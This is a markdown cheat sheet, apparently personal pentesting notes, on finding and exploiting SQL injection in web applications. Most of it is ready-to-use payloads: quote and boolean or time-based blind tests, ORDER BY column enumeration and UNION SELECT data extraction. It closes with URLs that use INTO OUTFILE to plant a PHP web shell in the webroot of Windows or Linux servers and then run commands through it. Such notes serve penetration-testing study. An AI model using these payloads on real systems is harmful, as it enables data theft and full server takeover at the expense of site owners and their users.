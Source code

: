 # SQL Injection Exploitation
> Tips & tricks for exploiting SQLi. Note the breadth of possiblities that SQLi can be used for. Identifying an instance of SQLi could mean an entry point to the underlying server, authentication bypass, RCE, file read, etc. 

### Common places
- URL parameters (GET requests)
	- ```http://[ip]/vulnerable.php?id=1```
- POST body parameters
	- ```username=example&password=example```
- Cookies
	- ```Cookie: trackingID=1234567890;```
- Authentication fields
	- this is kinda included in the GET/POST requests
	- will always be tied to auth bypass if it's in a user:pass field
- Any place on the app where you would think it would make sense for the app to need to retrieve stored data to present it to a user
	- Example: a shopping application that needs to display the specifics of an item when a user clicks to view it


### Manual Process 
1. Identify user input fields in the app, see above.
2. Add a single/double quote by itself, and see if an error is caused
	- an error returned from this implies vulnerable but if there is no error it *could still be vulnerable*
		- if no error is thrown try logic based payloads to see if different content returns, if it does then then the SQLi is blind:
			- ```http://[ip]/vulnerable.php?id=1' AND 1=1; -- ``` -> should return the same content
			- ```http://[ip]/vulnerable.php?id=1' AND 1=2; -- ``` -> should return different content 
			- Also try: ```http://[ip]/vulnerable.php?id=1-sleep(10)``` -> if this causes the application to sit inlimbo for 10 seconds then the parameter is vulnerable
	- ```http://[ip]/vulnerable.php?id=1'```
3. Use ORDER BY statements to enmerate the number of columns returned:
	- ```http://[ip]/vulnerable.php?id=1' ORDER BY 1 -- ```
	- increment this number until an error is thrown. The last valid request before the error is the number of columns
4. Find the columns that are actually return data
	- ```http://[ip]/vulnerable.php?id=1' UNION SELECT 1,2,3,4,5,6 -- ```
	- Note the numbers after the UNION SELECT statement should be equal to the column numbers identified by the ORDER BY statement
5. Retrieve data from the database by substituting payloads into the positions that are returning data
	- all DBMS's have different syntax, see [the NetSPI SQLiWiki](https://sqlwiki.netspi.com/) for payloads based on the DBMS that is behind your app

### Getting RCE on Blind/Error based SQLi
- Getting a webshell (Windows server): 
	- ```http://[ip]/vulnerable.php?id=1' UNION ALL SELECT 1,2,3, "<?php echo shell_exec($_GET['cmd']);?>",5,6 into OUTFILE 'c:/xampp/htdocs/cmd.php'```
	- ```http://[ip]/cmd.php?cmd=ls```
- Getting a webshell (Linux server):
	- ```http://[ip]/vulnerable.php?id=1' UNION ALL SELECT 1,2,3, "<?php echo shell_exec($_GET['cmd']);?>",5,6 into OUTFILE '/var/www/html/cmd.php'```
		- note it's worth trying /var/www/cmd.php as the webroot here as well
	- ```http://[ip]/cmd.php?cmd=ls```




